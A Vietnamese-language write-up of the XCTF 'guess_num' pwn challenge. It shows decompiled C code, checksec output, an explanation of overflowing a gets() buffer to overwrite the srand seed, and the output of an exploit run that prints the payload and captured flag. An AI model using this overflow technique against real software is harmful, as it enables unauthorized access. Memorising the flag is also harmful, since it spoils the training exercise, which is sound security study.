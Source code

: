 # XCTF - PWN Exercise - guess_num

```c
#include<stdio.h>

__int64 sub_C3E()
{
  printf("You are a prophet!\nHere is your flag!");
  system("cat flag");
  return 0LL;
}

__int64 sub_BB0()
{
  int fd; // [rsp+Ch] [rbp-14h]
  __int64 buf[2]; // [rsp+10h] [rbp-10h] BYREF

  buf[1] = __readfsqword(0x28u);
  fd = open("/dev/urandom", 0);
  if ( fd < 0 || (int)read(fd, buf, 8uLL) < 0 )
    exit(1);
  if ( fd > 0 )
    close(fd);
  return buf[0];
}

__int64 __fastcall main(int a1, char **a2, char **a3)
{
  int v4; // [rsp+4h] [rbp-3Ch] BYREF
  int i; // [rsp+8h] [rbp-38h]
  int v6; // [rsp+Ch] [rbp-34h]
  char v7[32]; // [rsp+10h] [rbp-30h] BYREF
// ham nhap tu gets
  unsigned int seed[2]; // [rsp+30h] [rbp-10h]
// hat giong dc ham rand chon de tao ra so random
// cach nhau giua nhap va hat giong la 20 
  unsigned __int64 v9; // [rsp+38h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  v4 = 0;
  v6 = 0;
  *(_QWORD *)seed = sub_BB0();
  puts("-------------------------------");
  puts("Welcome to a guess number game!");
  puts("-------------------------------");
  puts("Please let me know your name!");
  printf("Your name:");
  gets(v7);
  srand(seed[0]);
  for ( i = 0; i <= 9; ++i )
  {
    v6 = rand() % 6 + 1;
    printf("-------------Turn:%d-------------\n", (unsigned int)(i + 1));
    printf("Please input your guess number:");
    __isoc99_scanf("%d", &v4);
    puts("---------------------------------");
    if ( v4 != v6 )
    {
      puts("GG!");
      exit(1);
    }
    puts("Success!");
  }
  sub_C3E();
  return 0LL;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/2_guess_num λ checksec guess_num   
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/2_guess_num/guess_num'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Đọc code thì nếu ta đoán đúng số mà chương trình chạy random đủ 10 lượt thì hàm `main` sẽ nhảy đến hàm đọc flag. Tất nhiên ta sẽ không đoán những số đó :( , hàm  srand(seed[0]) của chương trình sinh ra số ngẫu nhiên dựa trên hạt giống seed[0]. Khi hàm rand tạo ra các số ngẫu nhiên, nó cần một hạt giống. Nếu seed giống nhau, các số ngẫu nhiên được tạo cũng giống nhau. Bởi vì chúng ta phải nhập tên trước- là biến v7, nếu chúng ta nhập một chuỗi rất dài thông qua get(), chỉ cần ghi đè giá trị của hạt giống, thì giá trị ngẫu nhiên được tạo bởi hạt giống sẽ trở thành một chuỗi có thể kiểm soát được.

```
  char v7[32]; // [rsp+10h] [rbp-30h] BYREF
  unsigned int seed[2]; // [rsp+30h] [rbp-10h]
```

Biến `v7` là tên nhập vào cách hạt giống `seed` 0x20 cộng thêm giá trị ta muốn ghi đè để kiểm soát hạt giống. Ta sẽ ghi đè giá trị là 1.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/2_guess_num λ python2 exploit.py
[+] Opening connection to 111.200.241.244 on port 49454: Done
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x00\x00\x00
[*] Switching to interactive mode
---------------------------------
Success!
You are a prophet!
Here is your flag!cyberpeace{59f8140a6b9d26b4bb850f90ea9f185c}
[*] Got EOF while reading in interactive
$  
```
